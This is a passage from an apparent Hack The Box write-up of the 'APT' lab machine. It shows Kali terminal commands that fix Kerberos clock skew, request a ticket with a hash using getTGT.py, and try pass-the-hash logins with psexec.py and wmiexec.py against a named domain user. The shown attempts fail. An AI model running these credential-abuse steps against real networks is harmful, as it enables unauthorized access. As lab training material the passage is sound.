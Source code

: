 I checked my saved output, and saw that there was only one has that didn't trigger the PREAUTH_FAILED error.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ net time -S apt.htb.local
Tue Mar 30 21:38:19 2021

┌──(zweilos㉿kali)-[~/htb/apt]
└─$ date
Tue 30 Mar 2021 09:28:35 PM EDT
```

my errors were caused because the time was 10 minutes off...Thank you `net time`!!

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ for x in $(head -1 test);do getTGT.py -hashes $x -dc-ip apt.htb.local htb/henry.vinson@apt.htb | grep -v Impacket | tee -a valid_hash3 && echo $x >> valid_hash3 ;done

[*] Saving ticket in henry.vinson@apt.htb.ccache
```

And it worked!!

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ export KRB5CCNAME=henry.vinson@apt.htb.ccache
```

I exported the Kerberos ticket to a variable for use by other programs and pushed forward.

### Pass the hash

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' htb/henry.vinson@apt.htb.local
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on apt.htb.local.....
[-] share 'backup' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.
```

The hash seemed to be valid! I got a listing of shares, though `psexec.py` wouldn't connect since they weren't writeable.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb htb/henry.vinson@apt.htb.local 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
```
